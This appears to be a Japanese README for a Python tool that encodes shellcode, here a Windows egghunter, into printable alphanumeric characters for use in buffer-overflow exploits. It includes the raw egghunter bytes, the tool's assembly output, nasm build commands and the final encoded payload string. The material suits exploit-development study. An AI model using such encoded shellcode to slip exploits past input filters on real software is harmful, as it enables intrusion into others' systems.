# encoder-shellcode-alpha.py
## About
egghunterなどをalphaのみ(`0x21~0x7f`付近のprint可能な文字)にEncodeするカスタムエンコーダ。   
なお、Windowsでは以下の文字列はファイル名に含めることができないため、これらの文字を使わないようにもした。   
```txt
*  2a
,  2c
/  2f
:  3a
;  3b
<  3c
>  3e
?  3f
\  5c
|  7c
```
この手法の考え方については以下を参照。   
https://www.offensive-security.com/vulndev/quickzip-stack-bof-0day-a-box-of-chocolates/   
## How to use
### step1
以下のようにしてEncodeしたいShellcodeをセットする。   
ここでは`egghunter`変数にセットした。   
```python
import struct

################# User code begin ###################################################################
# You should edit only this section

egghunter = "\x31\xd2\x90\x90\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8"
egghunter += "w00t" # this is the marker/tag: w00t
egghunter += "\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7"

# Make sure that finally using variable "shellcode"
shellcode = egghunter
################# User code end #####################################################################
```
### step2
実行する。以下のように、出力される。(以下では省略している)。   
標準出力はnasm形式となっているため、そのままコピーして`egghunter.asm`として保存する。   
```txt
root@kali:~/$ python encoder-shellcode-alpha.py 
global _start

section .text

_start:

; last4bytes :0xe7ffe775
; 2's complement :0x1800188b
; [+] 0: 0x27 0x31 0x33
; [+] 1: 0x5d 0x5d 0x5e
; [+] 2: 0x55 0x55 0x55
; [+] 3: 0x5d 0x5d 0x5d

; [+] Example
; [+] init eax ----------------------------------------------
                             and    eax,0x4e4e4d4a
                             and    eax,0x31313235
; [+] sub and set eax----------------------------------------
                             sub    eax,0x5d555d27
                             sub    eax,0x5d555d31
                             sub    eax,0x5d555e33
; [+] push eax-----------------------------------------------
                             push eax
         
         ...
         
; last4bytes :0x9090d231
; 2's complement :0x6f6f2dcf
; [+] 0: 0x45 0x45 0x45
; [+] 1: 0x64 0x64 0x65
; [+] 2: 0x7a 0x7a 0x7a
; [+] 3: 0x7a 0x7a 0x7a

; [+] Example
; [+] init eax ----------------------------------------------
                             and    eax,0x4e4e4d4a
                             and    eax,0x31313235
; [+] sub and set eax----------------------------------------
                             sub    eax,0x7a7a6445
                             sub    eax,0x7a7a6445
                             sub    eax,0x7a7a6545
; [+] push eax-----------------------------------------------
                             push eax

; [*] encode successfully finished!!
```
`egghunter.asm`としてこの出力をそのままコピーして以下のように保存する。(下の方は省略している)   
```txt
root@kali:~/$ cat egghunter.asm 
global _start

section .text

_start:

; last4bytes :0xe7ffe775
; 2's complement :0x1800188b
; [+] 0: 0x27 0x31 0x33
; [+] 1: 0x5d 0x5d 0x5e
; [+] 2: 0x55 0x55 0x55
; [+] 3: 0x5d 0x5d 0x5d
   ...
```
### step3
nasmでアセンブルする。   
```txt
root@kali:~/$ nasm -felf32 egghunter.asm 
root@kali:~/$ ld -m elf_i386 egghunter.o -o egghunter.out
```
そして、その結果を表示すると以下のようになる。   
```txt
root@kali:~/$ for i in $(objdump -d egghunter.out |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x25\x4a\x4d\x4e\x4e\x25\x35\x32\x31\x31\x2d\x27\x5d\x55\x5d\x2d\x31\x5d\x55\x5d\x2d\x33\x5e\x55\x5d\x50\x25\x4a\x4d\x4e\x4e\x25\x35\x32\x31\x31\x2d\x70\x2d\x5a\x6f\x2d\x70\x2e\x5a\x70\x2d\x71\x2e\x61\x70\x50\x25\x4a\x4d\x4e\x4e\x25\x35\x32\x31\x31\x2d\x45\x27\x7a\x56\x2d\x45\x31\x7d\x57\x2d\x46\x33\x7d\x57\x50\x25\x4a\x4d\x4e\x4e\x25\x35\x32\x31\x31\x2d\x5b\x6c\x2d\x45\x2d\x5b\x6d\x2d\x45\x2d\x5b\x6d\x2d\x45\x50\x25\x4a\x4d\x4e\x4e\x25\x35\x32\x31\x31\x2d\x41\x53\x37\x27\x2d\x41\x53\x37\x31\x2d\x42\x54\x37\x33\x50\x25\x4a\x4d\x4e\x4e\x25\x35\x32\x31\x31\x2d\x54\x37\x66\x45\x2d\x55\x38\x66\x45\x2d\x55\x38\x66\x46\x50\x25\x4a\x4d\x4e\x4e\x25\x35\x32\x31\x31\x2d\x50\x2e\x2d\x31\x2d\x50\x47\x40\x32\x2d\x51\x48\x40\x32\x50\x25\x4a\x4d\x4e\x4e\x25\x35\x32\x31\x31\x2d\x33\x28\x67\x55\x2d\x33\x29\x67\x55\x2d\x34\x2d\x67\x55\x50\x25\x4a\x4d\x4e\x4e\x25\x35\x32\x31\x31\x2d\x45\x64\x7a\x7a\x2d\x45\x64\x7a\x7a\x2d\x45\x65\x7a\x7a\x50
```
これは以下のような文字列となる。   
```txt
%JMNN%5211-']U]-1]U]-3^U]P%JMNN%5211-p-Zo-p.Zp-q.apP%JMNN%5211-E'zV-E1}W-F3}WP%JMNN%5211-[l-E-[m-E-[m-EP%JMNN%5211-AS7'-AS71-BT73P%JMNN%5211-T7fE-U8fE-U8fFP%JMNN%5211-P.-1-PG@2-QH@2P%JMNN%5211-3(gU-3)gU-4-gUP%JMNN%5211-Edzz-Edzz-EezzP
```
これをencodeされたegghunterとして実行すると、元のegghunterが復元される。
